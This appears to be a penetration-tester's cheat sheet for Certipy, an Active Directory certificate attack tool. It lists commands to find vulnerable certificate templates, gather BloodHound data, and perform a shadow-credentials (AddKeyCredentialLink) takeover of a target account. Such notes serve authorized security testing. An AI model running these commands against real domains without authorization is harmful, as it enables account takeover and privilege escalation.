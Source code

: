 ### Source
https://github.com/ly4k/Certipy  

### Check for vulnerable templates
```
certipy find '<domain>/<user>:<password>@<domainController>'
```

### Collect data for bloodhound
```
certipy find '<domain>/<user>:<password>@<domainController>' -bloodhound
```

### AddKeyCredentialLink
```
certipy shadow auto '<domain>/<user>:<password>'@<certificateAuthorityRhost> -account '<targetComputerOrUser>'
```

